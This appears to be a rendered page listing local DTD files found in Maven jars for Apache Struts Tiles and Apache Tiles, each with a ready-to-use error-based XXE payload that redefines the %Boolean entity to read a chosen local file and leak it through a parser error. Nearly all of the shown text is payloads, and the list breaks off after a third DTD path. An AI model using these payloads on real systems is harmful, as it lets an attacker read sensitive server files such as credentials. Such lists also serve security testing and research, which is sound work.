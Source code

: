  --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/struts/struts-tiles/1.3.8/struts-tiles-1.3.8.jar!/org/apache/struts/resources/tiles-config_1_1.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/struts/struts-tiles/1.3.8/struts-tiles-1.3.8.jar!/org/apache/struts/resources/tiles-config_1_1.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tiles/tiles-core/3.0.5/tiles-core-3.0.5.jar!/org/apache/tiles/resources/tiles-config_3_0.dtd`

**Injectable entity:** `%Boolean`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/apache/tiles/tiles-core/3.0.5/tiles-core-3.0.5.jar!/org/apache/tiles/resources/tiles-config_3_0.dtd">

    <!ENTITY % Boolean '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/apache/tiles/tiles-core/3.0.7/tiles-core-3.0.7.jar!/org/apache/tiles/resources/tiles-config_3_0.dtd`

